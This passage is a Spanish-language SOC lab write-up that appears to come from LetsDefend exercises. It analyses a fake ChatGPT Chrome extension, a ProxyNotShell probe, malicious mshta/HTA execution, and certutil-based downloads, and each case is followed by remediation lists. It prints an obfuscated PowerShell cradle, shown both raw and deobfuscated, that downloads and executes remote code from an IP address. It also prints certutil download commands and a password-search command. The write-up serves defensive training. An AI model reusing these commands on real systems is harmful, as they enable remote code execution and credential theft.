- Actualización de políticas de contraseñas: Revisa y actualiza las políticas de contraseñas para garantizar que sean lo suficientemente fuertes y resistentes a los ataques de fuerza bruta. Esto puede incluir requerir contraseñas de longitud adecuada, combinaciones de caracteres especiales, números y letras mayúsculas y minúsculas.

- Monitoreo de actividad de inicio de sesión: Implementa un sistema de monitoreo de actividad de inicio de sesión en el servidor VPN para detectar y alertar sobre intentos de inicio de sesión fallidos y exitosos. Esto te permitirá identificar y responder rápidamente a posibles intentos de ataque.

- Capacitación del usuario: Proporciona capacitación regular a los usuarios sobre las mejores prácticas de seguridad, incluida la importancia de utilizar contraseñas seguras y no compartir credenciales de inicio de sesión. Los usuarios también deben ser educados sobre cómo reconocer y reportar actividad sospechosa.

- Implementación de bloqueo automático: Configura el servidor VPN para bloquear automáticamente las cuentas de usuario después de un cierto número de intentos de inicio de sesión fallidos. Esto dificultará aún más los intentos de fuerza bruta al limitar el número de intentos que un atacante puede realizar.

- Actualización del software VPN: Asegúrate de que el software utilizado para proporcionar el servicio VPN esté actualizado con las últimas correcciones de seguridad y parches. Esto ayudará a cerrar posibles vulnerabilidades que podrían ser explotadas por los atacantes.

- Auditoría de seguridad regular: Realiza auditorías de seguridad regulares en el servidor VPN para identificar posibles debilidades en la configuración y la seguridad del sistema. Esto te permitirá tomar medidas preventivas proactivas para proteger el sistema contra futuros ataques.


## SOC202 - FakeGPT Malicious Chrome Extension <a name="7"></a>

Tipo según taxonomía: Instalación de extensión maliciosa (Malicious Chrome Extension)

Criticidad: Alta

Descripción del incidente: El incidente ocurrió el 29 de mayo de 2023 a las 01:01 PM. Fue detectado por la regla SOC202 que identifica la instalación de extensiones maliciosas en el navegador Chrome. La actividad sospechosa implicó la instalación de la extensión "hacfaophiklaeolhnmckojjjjbnappen.crx" en el navegador Chrome del host denominado "Samuel". La extensión fue descargada desde la ubicación de archivo "C:\Users\LetsDefend\Download\hacfaophiklaeolhnmckojjjjbnappen.crx". Se identificó el hash del archivo como "7421f9abe5e618a0d517861f4709df53292a5f137053a227bfb4eb8e152a4669".


Empezaremos iniciando el playbook

Pondremos una descripción del tipo de incidente.


Comenzaremos a buscar registros/evidencias.

Primero veremos el Endpoint Security de la Ip Interna


No hay mucho en Endpoint Security que indique que fue puesto en cuarentena. La línea de comando de alerta también indica que se descargó en la máquina chrome.exe: argumento único C:\Users\LetsDefend\Download\hacfaophiklaeolhnmckojjjjbnappen.crx


A continuación, tenemos el hash en la alerta para que podamos usarlo para buscarlo, por ejemplo, en Virustotal.


Ningún motor lo detecta como malicioso, pero observamos en la pestaña Comunidad y descubrimos que es una extensión falsa de Chatgpt Chrome.


Con esto podemos concluir que el Malware realmente si es malicioso


Al mirar en Gestión de registros podemos encontrar esto, así que sí, se accedió.


Como el se accedió finalmente se pondrá en contención el dispositivo.


Con esto concluimos el playbook.



Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

Tras trabajar en la resolución del incidente ¿Que acciones/actuaciones destacadas se han realizado para solucionar el incidente? Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior.

Comprobación de artifacts para saber si son maliciosos en Virustotal
Contención del dispositivo
Busqueda de registros, logs e historial de navegación

No tengo un playbook sobre instalación de extensión maliciosa

Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

- Eliminación de la extensión maliciosa: Elimina la extensión maliciosa del navegador Chrome en todos los sistemas afectados. Esto puede hacerse manualmente a través de la configuración de extensiones del navegador.

- Escaneo antivirus y antimalware: Realiza un escaneo completo de todos los sistemas afectados utilizando software antivirus y antimalware actualizado. Esto ayudará a detectar y eliminar cualquier otro malware presente en los sistemas.

- Restablecimiento del navegador: Restablece la configuración del navegador Chrome en todos los sistemas afectados para eliminar cualquier configuración o modificación maliciosa realizada por la extensión maliciosa. Esto puede hacerse a través de la configuración del navegador.

- Educación del usuario: Proporciona educación al usuario sobre las prácticas seguras de navegación web y la importancia de no instalar extensiones desconocidas o sospechosas en los navegadores. Los usuarios deben ser instruidos para que solo instalen extensiones de fuentes confiables y verificadas.

- Implementación de políticas de seguridad: Implementa políticas de seguridad que restrinjan la instalación de extensiones en los navegadores a solo aquellas aprobadas por el departamento de TI. Esto puede hacerse utilizando soluciones de administración de endpoints o políticas de grupo en entornos corporativos.

- Monitoreo continuo: Establece un monitoreo continuo de la actividad del navegador y del tráfico de red para detectar y responder rápidamente a cualquier actividad maliciosa adicional que pueda surgir como resultado de la instalación de la extensión maliciosa.

- Actualizaciones de seguridad: Asegúrate de que todos los sistemas estén actualizados con las últimas actualizaciones de seguridad y parches de software. Esto ayudará a cerrar posibles vulnerabilidades que podrían ser explotadas por los atacantes.

- Auditorías de seguridad: Realiza auditorías de seguridad regulares para evaluar la eficacia de las medidas de seguridad implementadas y para identificar posibles áreas de mejora en la postura de seguridad de la organización.


## SOC175 - PowerShell Found in Requested URL - Possible CVE-2022-41082 Exploitation <a name="8"></a>

Tipo según taxonomía: Intento de explotación (Exploitation)

Criticidad: Alta

Descripción del incidente: El incidente ocurrió el 30 de septiembre de 2022 a las 07:19 AM y fue detectado por la regla SOC175 que identifica la presencia de comandos de PowerShell en una URL solicitada, lo que podría indicar un intento de explotación de la vulnerabilidad CVE-2022-41082. La actividad sospechosa implicó una solicitud HTTP GET desde la dirección IP de origen 58.237.200.6 al servidor Exchange Server 2 ubicado en la dirección IP de destino 172.16.20.8. La URL solicitada fue "/autodiscover/autodiscover.json?@evil.com/owa/&Email=autodiscover/autodiscover.json%3f@evil.com&Protocol=XYZ&FooProtocol=Powershell". El agente de usuario utilizado fue "Mozilla/5.0 zgrab/0.x".


Al comenzar nuestro análisis, notamos inmediatamente que el motivo de activación de la alerta es: " La URL de solicitud contiene PowerShell ".

Esto significa que deberíamos ver algunas solicitudes en el puerto 443 mediante la dirección IP de origen 58.237.200.6.

Pero primero verifiquemos la dirección IP de origen 58.237.200.6:


La dirección IP está marcada como maliciosa y está conectada a una empresa de telecomunicaciones de Corea del Sur.

El siguiente paso es comprobar los registros. En la página de administración de registros vemos que se realizaron múltiples solicitudes desde la IP 58.237.200.6 a la dirección IP 172.16.20.8


Si abrimos los registros sin formato, vemos que hay un intento de utilizar la vulnerabilidad Proxy(no)Shell:


Podemos ver en los registros que todos los intentos están bloqueados.

Una vez hecho esto empezaremos el playbook:

Como hemos visto anteriormente es malicioso.


El tipo de ataque es ***otro,*** ya que la vulnerabilidad aprovecha **la ejecución remota de código** cuando el atacante puede acceder a Exchange PowerShell


Podemos decir que no está previsto. No hay evidencia de correos electrónicos ni de posibles ejercicios relacionados con la simulación.


La dirección del tráfico es Internet → Empresa como hemos visto analizando los logs.


La respuesta es no ya que hemos visto que todos los dispositivos lo tienen bloqueado.


No, no necesitamos una escalada de nivel 2 ya que el ataque no tiene éxito.


Con esto concluiríamos el playbook.


Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

Tras trabajar en la resolución del incidente ¿Que acciones/actuaciones destacadas se han realizado para solucionar el incidente? Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior.

Comprobación de artifacts para saber si son maliciosos en Virustotal
Busqueda de registros y logs


No tengo ningun playbook sobre intento de explotación

Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

- Actualización del software y parches de seguridad: Asegúrate de que el software del servidor Exchange esté actualizado con las últimas correcciones de seguridad y parches proporcionados por el proveedor. Esto incluye no solo el software base, sino también los complementos y componentes relacionados.

- Bloqueo de comandos de PowerShell en URLs: Implementa filtros o reglas de seguridad en el servidor web para bloquear solicitudes que contengan comandos de PowerShell u otras cadenas sospechosas en las URLs. Esto puede ayudar a prevenir intentos de explotación conocidos.

- Configuración de firewall y listas de control de acceso: Configura el firewall de red y las listas de control de acceso (ACL) para restringir el tráfico de red entrante y saliente, bloqueando el acceso desde direcciones IP no autorizadas o conocidas por actividades maliciosas.

- Auditorías de seguridad regulares: Realiza auditorías de seguridad periódicas en el servidor Exchange y otros sistemas críticos para identificar posibles vulnerabilidades y áreas de mejora en la postura de seguridad de la infraestructura.

- Monitoreo de actividad sospechosa: Implementa un sistema de monitoreo de seguridad que pueda detectar y alertar sobre actividades sospechosas, como solicitudes inusuales o intentos de explotación de vulnerabilidades conocidas. Esto te permitirá responder rápidamente a posibles amenazas.

- Capacitación del personal: Proporciona capacitación regular sobre seguridad informática al personal que administra y utiliza el servidor Exchange. Educa a los usuarios sobre las últimas amenazas de seguridad, las mejores prácticas de seguridad y cómo reconocer y reportar actividad sospechosa.

- Segregación de redes: Considera la implementación de una arquitectura de red que segmente el tráfico de Internet y el tráfico interno, limitando así la exposición del servidor Exchange a posibles amenazas externas.

- Gestión de vulnerabilidades: Implementa un programa de gestión de vulnerabilidades que incluya escaneos regulares de vulnerabilidades, evaluación de riesgos y acciones correctivas para abordar las vulnerabilidades identificadas de manera proactiva.


## SOC164 - Suspicious Mshta Behavior <a name="9"></a>

Tipo según taxonomía: Comportamiento sospechoso de Mshta (Suspicious Mshta Behavior)

Criticidad: Alta

Descripción del incidente: El incidente ocurrió el 5 de marzo de 2022 a las 10:29 AM y fue detectado por la regla SOC164 que identifica comportamientos sospechosos relacionados con el proceso Mshta. La actividad sospechosa implicó la ejecución de un archivo HTA de baja reputación a través del proceso Mshta en el host denominado "Roberto". El archivo HTA "Ps1.hta" se ejecutó desde la ubicación "C:/Users/Roberto/Desktop/" utilizando el ejecutable "mshta.exe" ubicado en "C:/Windows/System32/mshta.exe". El MD5 del archivo HTA fue registrado como "6685c433705f558c5535789234db0e5a".


EventID: 114

Event Time: Mar, 05, 2022, 10:29 AM

Rule: SOC164 - Suspicious Mshta Behavior

Level: Security Analyst

Hostname: Roberto

IP Address: 172.16.17.38

Related Binary: mshta.exe

Binary Path: C:/Windows/System32/mshta.exe

Command Line: C:/Windows/System32/mshta.exe C:/Users/Roberto/Desktop/Ps1.hta

MD5 of Ps1.hta: 6685c433705f558c5535789234db0e5a

Alert Trigger Reason:Low reputation hta file executed via mshta.exe

EDR Action: Allowed

La alerta indica un comportamiento sospechoso de mshta relacionado con la ejecución de " mshta.exe " en el host llamado " Roberto ".

Mshta.exe es un componente de software del servidor de aplicaciones Microsoft HTML de Microsoft. Se encuentra en la ruta del archivo “C:\Windows\System32\mshta.exe” y se ejecuta en cmd.exe o powershell.exe. Mshta.exe recibe su nombre como abreviatura de "Aplicaciones HTML de Microsoft".

"mshta.exe" es un componente legítimo de Windows que se utiliza para ejecutar archivos de aplicaciones HTML (.hta), que se pueden utilizar para crear aplicaciones GUI utilizando HTML y lenguajes de secuencias de comandos como JavaScript o VBScript, pero también se pueden utilizar para evitar las defensas de la lista blanca de aplicaciones. y configuración de seguridad del navegador.

La alerta muestra que “mshta.exe” se ejecutó en la terminal, con la línea de comando “ C:/Windows/System32/mshta.exe C:/Users/Roberto/Desktop/Ps1.hta ”.

El hash MD5 de Ps1.hta ya se proporciona en el informe de alerta, lo que puede ser útil para análisis posteriores. Busquemos el archivo en VirusTotal.


Como podemos ver, muchos proveedores de seguridad identifican el archivo como malicioso. Decidimos que se necesita más investigación para evaluar la naturaleza y la intención del archivo "Ps1.hta" y su comportamiento cuando se ejecuta. Vayamos a la pestaña Endpoint Security para verificar los comandos y procesos de terminal sospechosos.

Buscamos a Roberto,


Nos vamos a su historial:

El historial del terminal de Roberto revela una serie de comandos sospechosos ejecutados el 5 de marzo de 2021 a las 10:30 a.m. Analicemos los comandos.


```jsx
C:/Windows/System32/mshta.exe C:/Users/roberto/Desktop/Ps1.hta
```

Este primer comando ejecuta **mshta.exe** con el argumento C:/Users/roberto/Desktop/Ps1.hta. Este argumento se utiliza para abrir y ejecutar el archivo HTA ubicado en el sistema de Roberto.

```jsx
C:/Windows/System32/WindowsPowerShell/v1. 0 /powershell.exe función  H1 ( $i ) { $r = '' ; for ( $n = 0 ; $n -Lt $i .LengtH; $n += 2 ){ $r += [cHar][ int ]( '0x' + $i . Subcadena ( $n , 2 ))} devolver  $r }; $H2 = ( nuevo - objeto ( '{1}{0}{2}' -f 'WebCL' , 'net.' , 'ient' )); $H3 = H1'446f776E' ; $H4 = H1 '6C6f' ; $H5 = H1 '616473747269' ; $H6 = H1 '6E67' ; $H7 = $H3 + $H4 + $H5 + $H6 ; $H8 = $H2 . $H7 ( 'http://193.142.58.23/Server.txt' );iEX $H8
```

El segundo comando ejecuta un script de PowerShell. El código está ofuscado e intenta ocultar el verdadero propósito del código. A continuación se muestra el código desenfuscado

```jsx
función  H1 ( $i ) {
     $r = '' 
    for ( $n = 0 ; $n -lt $i .Longitud; $n += 2 ) {
         $r += [char][ int ]( '0x' + $i . Subcadena ( $n , 2 ))
    }
     return  $r
 }

 $H2 = ( nuevo - objeto ( '{1}{0}{2}' -f 'WebCL' , 'net.' , 'ient' ) )
 $H3 = H1 '446f776E' 
$H4 = H1 '6C6f' 
$H5 = H1 '616473747269' 
$H6 = H1 '6E67' 
$H7 = $H3 + $H4 + $H5 + $H6 
$H8 = $H2 . $H7 ( 'http://193.142.58.23/Server.txt' )
iEX $H8
```

El script contiene una función llamada H1($i) que recibe una cadena de entrada "$i", la interpreta como valores hexadecimales, los convierte a caracteres ASCII y los concatena.

Luego, crea un nuevo objeto llamado $H2 utilizando el cmdlet "New-Object". Sin embargo, los parámetros 'WebCL', 'net.' y 'ient' se concatenan para formar el nombre de clase de PowerShell "System.Net.WebClient".

En las siguientes líneas, el script llama a la función H1 cuatro veces con diferentes cadenas hexadecimales. Estas variables se utilizarán para formar una cadena que represente un comando de función.

Después de una serie de asignaciones y operaciones de ofuscadas, se obtiene el siguiente comando.

```jsx
( Nuevo - Objeto ( 'Net.WebClient' )). Cadena de descarga ( 'http://193.142.58.23/Server.txt' ).
```

Este comando almacena la variable “$H8”. El script intenta descargar y ejecutar código PowerShell desde la URL " http://193.142.58.23/Server.txt ". El verdadero contenido del archivo "Server.txt" se desconoce en el script proporcionado, pero puede ser un archivo malicioso.

A continuación revisaremos los registros:

Buscamos la IP de origen sospechosa.

Hay dos solicitudes. El primero fue la comunicación con nuestro host y el segundo fue una solicitud de Server.txt.


Nos muestra que la solicitud recibió un 404 No encontrado, lo que significa que el código malicioso en server.txt no se ejecutó, aunque el script ofuscado intentó acceder a él. Por último, vayamos y verifiquemos el historial del proceso.


En el historial del proceso, si hace clic en mshta.exe, verá que el proceso principal era explorer.exe, por lo que el usuario del sistema ejecutó el comando mstha. Finalmente podemos contener el host e iniciar el playbook.


Sí, llegamos a la conclusión de que la actividad era **sospechosa** , incluso maliciosa.


El script intentaba **ejecutar** un comando malicioso desde Internet.


Aunque el comando se ejecuta mediante un script, en el historial del proceso vemos que el **usuario** del sistema ejecutó el comando mstha.

Con esto concluiríamos el playbook.


Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

Tras trabajar en la resolución del incidente ¿Que acciones/actuaciones destacadas se han realizado para solucionar el incidente? Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior.

Comprobación de artifacts para saber si son maliciosos en Virustotal
Contención del dispositivo
Busqueda de registros y logs
Registro del historial del terminal del dispositivo.
Desenfuscado de codigo

No tengo ningun playbook sobre comportamiento sospechoso de Mshta (Suspicious Mshta Behavior)

Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

- Bloqueo del archivo HTA: Si se determina que el archivo HTA "Ps1.hta" es malicioso o de baja reputación, se debe bloquear su ejecución y eliminarlo de todos los sistemas afectados. Esto se puede lograr mediante el uso de soluciones de seguridad que detecten y bloqueen archivos maliciosos, así como mediante la configuración de políticas de seguridad para evitar la ejecución de archivos HTA no confiables.

- Educación del usuario: Proporciona capacitación y concientización en seguridad a los usuarios, especialmente a aquellos que tienen permisos para ejecutar archivos o programas en los sistemas. Enséñales a no abrir ni ejecutar archivos adjuntos de correo electrónico o descargas de Internet que provengan de fuentes desconocidas o no confiables.

- Implementación de soluciones de seguridad avanzadas: Utiliza soluciones de seguridad avanzadas, como sistemas de prevención de intrusiones (IPS), sistemas de detección y prevención de malware (MDP), y soluciones de análisis de comportamiento de endpoint (EBA), que puedan detectar y bloquear comportamientos sospechosos, incluyendo la ejecución de archivos HTA maliciosos.

- Monitoreo continuo: Establece un sistema de monitoreo continuo de la actividad del sistema y del tráfico de red para detectar cualquier actividad sospechosa, como la ejecución de archivos HTA maliciosos. Implementa alertas automáticas para notificar al personal de seguridad cuando se detecten comportamientos sospechosos.

- Actualizaciones y parches de seguridad: Mantén actualizados todos los sistemas y aplicaciones con los últimos parches de seguridad y actualizaciones. Esto ayudará a cerrar posibles vulnerabilidades que podrían ser explotadas por los atacantes para ejecutar archivos maliciosos.

- Políticas de ejecución de scripts: Configura políticas de ejecución de scripts en los sistemas para restringir la ejecución de scripts, incluyendo archivos HTA, a ubicaciones específicas o a scripts firmados digitalmente por fuentes confiables.

- Auditorías de seguridad: Realiza auditorías de seguridad regulares para evaluar la postura de seguridad de los sistemas y detectar posibles vulnerabilidades o puntos débiles que podrían ser explotados por los atacantes.


## SOC163 - Suspicious Certutil.exe Usage <a name="10"></a>

Tipo según taxonomía: Uso sospechoso de Certutil.exe (Suspicious Certutil.exe Usage)

Criticidad: Media

Descripción del incidente: El incidente ocurrió el 1 de marzo de 2022 a las 11:06 AM y fue detectado por la regla SOC163, que identifica el uso sospechoso del comando Certutil.exe. La actividad sospechosa implicó la ejecución del comando Certutil.exe en el host "EricProd" con la dirección IP 172.16.17.22. El comando Certutil.exe se utilizó para descargar un archivo desde la URL "https://nmap.org/dist/nmap-7.92-win32.zip" y guardarlo como "nmap.zip" en el sistema.


EventID: 113

Event Time: Mar, 01, 2022, 11:06 AM

Rule: SOC163 - Suspicious Certutil.exe Usage

Level: Security Analyst

Hostname: EricProd

IP Address: 172.16.17.22

Related Binary: certutil.exe

Binary Path: C:/Windows/System32/certutil.exe

Command Line: certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip

Alert Trigger Reason: -f parameter with certutil.exe

EDR Action: Allowed

Este evento parece estar relacionado con la ejecución de la utilidad de línea de comandos certutil.exe en un host llamado EricProd con la dirección IP **172.16.17.22** . El comando específico utilizado fue **"certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip".**

**Certutil.exe** es un programa de línea de comandos diseñado por Microsoft que se utiliza **para volcar y ver información de configuración de la autoridad certificadora (CA)** , configurar servicios de certificados, realizar copias de seguridad y restaurar componentes de CA y verificar certificados, pares de claves y cadenas de certificados.

Primero analizaremos el historial de comando: 


Del primer análisis de los comandos ejecutados entre las 10:11 a.m. y las 10:27 a.m., resulta inmediatamente evidente que el comando **net user** se ejecuta para identificar **todas las cuentas de usuario** en la computadora. Otros comandos se ejecutan para detectar la **configuración de red del sistema** y detectar **procesos en ejecución** .

Dos comandos certutil.exe muy interesantes se ejecutan entre las 11:06 y las 11:07 am. El primero:

```jsx
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
```

Éste se utiliza para descargar Nmap al dispositivo.

```jsx
*certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py*
```

El segundo comando explota la misma técnica que el comando anterior y se utiliza para descargar **Windows Exploit Suggestor** de Internet, que utilizan **los piratas informáticos** para obtener **acceso privilegiado** a **los sistemas host** .

Ahora comprobemos si efectivamente se ha establecido una conexión, como podemos ver si ha habido conexión:


A continuación podemos leer de los comandos ejecutados que se realiza un **escaneo con nmap para verificar si el puerto 80 (HTTP)** está abierto.

Los siguientes pasos indican que:

**Python** se utiliza para ejecutar el programa descargado y se realiza una **enumeración básica del sistema mediante arp -a** .

**findtr /si pasa *.txt | *.xml| *.ini** se utiliza para buscar contraseñas en los distintos formatos posibles.

**C:/powershell.exe -nop -exec bypass** se ejecuta para permitir que los scripts de PowerShell se ejecuten sin ser bloqueados ni advertidos.


Como siguiente paso del análisis, comprobamos si el proceso fue ejecutado por el usuario o por malware:


Las actividades fueron realizadas por un usuario y no por malware porque al verificar los procesos notamos que explorer.exe es el proceso principal.

Una vez completado el análisis, colocamos el dispositivo en contención.


A continuación empezaremos con el playbook:


Sí , existe un posible reconocimiento de red realizado por un actor malicioso.


La actividad sospechosa radica en la combinación de los archivos descargados, las actividades de reconocimiento y la ejecución de ciertos comandos. Pero como solo podemos seleccionar uno pues elegiremos “Download”


La actividad la realiza un **usuario** , no un malware. Todas las herramientas utilizadas durante el proceso eran legales y ninguna de ellas era malware.

Con esto concluiría el playbook.


Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

Tras trabajar en la resolución del incidente ¿Que acciones/actuaciones destacadas se han realizado para solucionar el incidente? Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior.

Contención del dispositivo
Busqueda de registros y logs
Busqueda en el historial de comandos.

No no tengo ningun playbook sobre el uso sospechoso de Certutil.exe

Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

- Bloqueo del acceso a la URL: Bloquea el acceso a la URL "https://nmap.org/dist/nmap-7.92-win32.zip" desde la red para evitar que el archivo malicioso sea descargado nuevamente en el futuro. Esto se puede lograr mediante la configuración de listas de control de acceso (ACL) en el firewall o utilizando soluciones de seguridad web que bloqueen el acceso a sitios web maliciosos.

- Eliminación del archivo descargado: Elimina el archivo descargado "nmap.zip" del sistema afectado y de cualquier otro sistema donde haya sido distribuido. Realiza un análisis exhaustivo del archivo para identificar cualquier actividad maliciosa y asegúrate de que no queden artefactos o archivos residuales en el sistema.

- Análisis forense del sistema: Realiza un análisis forense del sistema afectado para determinar el alcance del incidente y si se produjo alguna actividad maliciosa adicional. Identifica la fuente del ataque y cualquier punto débil en la seguridad que haya permitido la descarga y ejecución del archivo malicioso.

- Educación del usuario: Proporciona educación y concientización en seguridad a los usuarios sobre los riesgos asociados con la descarga y ejecución de archivos desde fuentes desconocidas o no confiables. Enseña a los usuarios a verificar la autenticidad y seguridad de los archivos antes de abrirlos o ejecutarlos.

- Restricción de privilegios: Limita los privilegios de ejecución de comandos como Certutil.exe y otros programas potencialmente peligrosos en los sistemas, especialmente en entornos sensibles o críticos. Utiliza políticas de seguridad y permisos de usuario para restringir el acceso solo a aquellos usuarios que necesitan ejecutar estos comandos para realizar sus tareas.

- Monitoreo continuo de la actividad del sistema: Implementa un sistema de monitoreo continuo de la actividad del sistema para detectar y responder rápidamente a cualquier comportamiento sospechoso o intentos de descarga de archivos maliciosos en el futuro.

- Actualizaciones de seguridad: Asegúrate de que el sistema operativo y todos los programas estén actualizados con los últimos parches de seguridad y actualizaciones. Esto ayudará a cerrar posibles vulnerabilidades que podrían ser explotadas por los atacantes para descargar y ejecutar archivos maliciosos.


